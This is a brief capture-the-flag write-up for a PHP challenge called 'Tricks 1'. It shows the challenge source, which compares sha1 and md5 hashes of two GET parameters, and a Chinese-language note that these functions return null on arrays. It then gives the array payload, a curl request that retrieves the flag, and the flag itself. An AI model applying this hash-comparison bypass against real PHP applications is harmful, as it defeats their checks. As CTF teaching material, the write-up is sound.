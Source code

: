 # Tricks 1

*A couple of PHP Tricks, give it a try.*

---

```php
 <?php
    error_reporting(0);

    if (isset($_GET["a"]) && isset($_GET["b"])) {
        if ($_GET["a"] !== $_GET["b"] && sha1($_GET["a"]) === sha1($_GET["b"])) {
            if ($_GET["a"] !== $_GET["b"] && md5($_GET["a"]) === md5($_GET["b"])) {
                $flag = file_get_contents("../../flag");
                echo $flag;
            }else {
                echo "Didn't get passed MD5.";
            }
        }else {
            echo "Didn't get passed SHA1.";
        }
    }else {
        highlight_file(__FILE__);
        die();
    }
?> 
```

`md5`和`sha1	`不能用来处理数组,`md5(arr)`和`sha1(arr)`会返回null

**payload**: `a[]=a&b[]=b`

```shell
~$ curl "https://ch5.sbug.se/?a[]=a&b[]=b"
SBCTF{g07_2_w17h_0n3_SH07?}
```

**flag:**`SBCTF{g07_2_w17h_0n3_SH07?}`

